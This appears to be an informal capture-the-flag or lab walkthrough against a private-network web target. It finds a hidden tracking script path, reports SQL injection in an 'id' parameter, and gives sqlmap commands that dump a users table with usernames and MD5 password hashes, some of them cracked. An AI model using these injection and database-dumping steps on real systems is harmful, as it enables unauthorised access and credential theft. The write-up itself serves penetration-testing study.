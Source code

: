 in the source code >> look all the scripts:
```bash
		<!-- Scripts -->
			<script src="assets/js/jquery.min.js"></script>
			<script src="assets/js/jquery.scrolly.min.js"></script>
			<script src="assets/js/browser.min.js"></script>
			<script src="assets/js/breakpoints.min.js"></script>
			<script src="assets/js/util.js"></script>
			<script src="assets/js/main.js"></script>
			<script src="assets/js/footracking.js"></script>
```

in the footracking.js>>

```bash
alert("Loaded!");
<!-- pre-login collect data -->
var xhr = new XMLHttpRequest();
xhr.onreadystatechange = function() {
	if (this.readyState == 4 && this.status == 200) {
		console.log("OK");
	} else {
		console.log("Error!");
	}

	xhr.open("GET", "http://127.0.0.1/72ab311dcbfaa40ca0739f5daf505494/tracking2.php", true);
	xhr.send("ua=" + navigator.userAgent + "&platform=" + navigator.platform);
}
```

We found a new path : 
```bash
	/72ab311dcbfaa40ca0739f5daf505494/tracking2.php
```

All We need to do, its trying tracking.php

Be aware of your surronds ma boi.
If tracking 2 exists, perhaps tracking1 or tracking exists aswell.

You can do it! :D


http://172.16.64.92/72ab311dcbfaa40ca0739f5daf505494/tracking.php?id=1

the id paremeter is vulnerable to sql injection

we can try to id=1 or 2=2;

sqlmap:
	
	first: 
	--tables
	then -T <table> --dump
	or --columns if u want 

	sqlmap -u 172.16.64.92/72ab311dcbfaa40ca0739f5daf505494/tracking.php?id=1 -T users --dump

```bash
[4 entries]
+----+-----+-------------------------------------------+-----------+
| id | adm | password                                  | username  |
+----+-----+-------------------------------------------+-----------+
| 1  | yes | c5d71f305bb017a66c5fa7fd66535b84          | fcadmin1  |
| 2  | yes | 14d69ee186f8d9bbeddd4da31559ce0f          | fcadmin2  |
| 3  | no  | 827ccb0eea8a706c4c34a16891f84e7b (12345)  | tracking1 |
| 4  | no  | e10adc3949ba59abbe56e057f20f883e (123456) | tracking2 
```
